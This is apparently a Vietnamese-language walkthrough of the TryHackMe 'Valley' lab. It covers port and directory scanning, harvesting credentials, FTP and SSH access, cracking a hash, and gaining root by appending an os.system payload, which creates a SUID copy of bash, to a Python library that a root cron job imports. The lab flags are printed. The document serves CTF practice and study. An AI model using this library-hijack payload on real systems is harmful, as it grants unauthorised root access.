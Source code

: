 - link bt: https://tryhackme.com/room/valleype<br>

*. quét và thu thập thông tin<br>
- quét cổng mở: rustscan -a 10.10.100.181 -- -sV -sC<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/3ac35afb-44e5-4938-be0d-851427920dc1)<br>

- truy cập và trang web server: 10.10.100.181<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/9c04b0bc-5885-42df-a8ce-5693cc1ad238)<br>
-> mò mẫn hồi cx chả ra gì :)))

- tìm các directory bằng dirsearch:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/4ce7870e-f660-48a8-a4d1-3e1c9fca58cb)<br>

- đi xem in4 và source của từng trang tìm ra:<br>

. http://10.10.100.181/gallery/ -> show các ảnh:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/77849631-0add-43a6-95af-1756c633c579)<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/a072cbbe-e51a-43f0-aa82-0f783618eca0)<br>

-> dựa vào source -> static có ảnh, ...<br>

. http://10.10.100.181/static/<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/73d905cf-f977-4863-8731-dffbd0ffcbb0)<br>

-> chả có gì -> nó đã bị ẩn đi -> có điều bất thg<br>

- dùng lênh: dirsearch -u http://10.10.100.181/static/ để tìm thêm thông tin về URL này:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/6a2370df-ccc7-4dcf-95dd-7cc884d12155)<br>

- giờ check hêt mấy cái thu được nhé:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/0dd437c8-8c1c-49e8-a9e2-0c904c18d13f)<br>

- truy cập vào: http://10.10.88.11/dev1243224123123/<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/7a3b992b-cd28-4d9b-b046-ea0f7eed1ecd)<br>

- xem xét source của trang ta thu được:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/30a8ebd4-15cd-4232-864d-27a6f63996c2)<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/c830ceed-2af3-4b9e-922f-cee15e0c9ea8)<br>

- thu thập tài khoản và truy cập vào URL vừa thu thập đc:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/2dd0c0c4-b065-46c6-9427-1d601f73e5aa)<br>

- bây giờ thử đăng nhập vào ftp bằng tài khoản vừa lấy về: ftp 10.10.88.11 37370<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/2d5e01cb-49b5-47b6-b90b-4a4bdbcb41f3)<br>

- xài ls -la thu được 3 file:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/cd3059fd-db41-4fdc-9120-fc1ad5ca6d9e)<br>

- lấy 3 file về máy: python3 -m http.server + wget http://10.10.88.11:37370/tên_file<br>

- xài wireshark lục tìm thông tin trong 3 file ta thu được:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/2291ba5f-df28-4b70-bce9-0f3f7a56c54a)<br>

- đăng nhập bằng ssh: ssh valleyDev@10.10.88.11
- khám phá chút ta được:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/2895aa3c-1d3f-460b-8699-7080f9286a66)<br>

- mật khẩu user: THM{k@l1_1n_th3_v@lley}<br>

- truy cập vào thư mục home -> tìm ra 1 file thực thi nma thử cả 2 tài khoản tìm đc đều ko đúng:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/534e51f3-c6fc-401a-b71d-0b79d43409c8)<br>

-> mk sẽ đọc thử file thực thi này để xem có tìm được gì ko (tài khoản khác): strings valleyAuthenticator<br>
- ko xài đc strings thì get file về nhé: python3 -m http.server (ở home valley) và wget http://10.10.44.148:8000/valleyAuthenticator<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/ff4fc50a-a9ba-46a8-ab7a-e990f823a322)<br>

- thu được đoạn mã:<br>
```
e6722920bab2326f8217e4
bf6b1b58ac
ddJ1cc76ee3
beb60709056cfbOW
```
- dùng tool: https://crackstation.net/ -> giải mã ta thu được: 	liberty123
- thử với các user vừa nãy tìm đc:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/ccf6a167-5eb8-4f0c-8acd-22931622baf2)<br>

- user valley nằm trong group userAdmin -> check: find / -group valleyAdmin -ls 2>/dev/null<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/f23480df-5e39-4008-a9c0-68bbefd583cc)<br>

-> tìm đc 1 file thuộc sở hữu root nma nằm trong group valleyAdmin -> thử thêm payload vào file:<br>
```
import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")
```
- tuy nhiên để file chạy được thì trên hệ thống cần chạy 1 file python nào đó có import thư viện base64 -> tìm kiếm thì thấy nó trong phần crontab:<br>
- cat /etc/crontab<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/b91f3761-268e-4910-92d4-341b6e95c563)<br>

- cat /photos/script/photosEncrypt.py<br>
```
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

- check thư mục /tmp:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/46a9d80d-90b6-4e73-ac8b-4983f59e0048)<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/58dff153-f290-4445-a62e-dc16f71b1fba)<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/e09682a5-2b36-4cbd-9b8b-2e4237e868d8)<br>

- mật khẩu root: THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
